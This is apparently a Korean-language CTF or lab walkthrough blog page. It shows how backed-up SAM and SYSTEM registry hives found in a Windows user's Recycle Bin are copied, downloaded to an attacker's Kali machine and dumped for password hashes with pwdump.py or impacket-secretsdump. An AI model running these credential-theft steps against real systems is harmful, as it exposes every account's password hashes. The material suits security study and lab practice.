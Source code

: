```yaml
---
layout: page
title: 쓰레기통_뒤지기
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


Windows와 Unix의 차이점을 생각하면서 운영 체제가 삭제 요청을 처리하는 방식의 차이점은 무엇입니까?

답변 — Unix를 사용하면 쉬운 복구 방법이 없는 직접 연결 해제입니다. Windows에서는 파일이 연결 해제되지만 파일 자체를 덮어쓸 때까지 핸들이 휴지통에 보관됩니다.


사용자에 대한 재활용 파일은 `C:\$Recycle.bin\<SID>`에서 찾을 수 있으며 여기서 SID는 개별 사용자를 위한 것입니다.

```powershell
whoami /all | Select-String -Pattern "jareth" -Context 2,0
```


이제 재활용 쓰레기통으로 이동하여 살펴볼 수 있습니다.
```powershell
cd 'C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'
```

![Pasted_image_20250817001959.png](/image/Pasted_image_20250817001959.png)

SAM 및 SYSTEM 레지스트리 하이브의 백업이 있으므로 시스템의 모든 사용자 계정의 암호 해시를 덤프하는 데 이를 사용하는 고전적인 권한에 필요한 모든 것이 있습니다.


```powershell
copy sam.bak C:\Windows\tasks\sam.bak
copy system.bak C:\Windows\tasks\system.bak
download C:\Windows\tasks\sam.bak
download C:\Windows\tasks\system.bak
```


Kali로 가서 `pwdump.py` 도구를 사용하여 암호 목록을 제공할 수 있습니다.
`impacket-secretsdump` 도구로도 가능

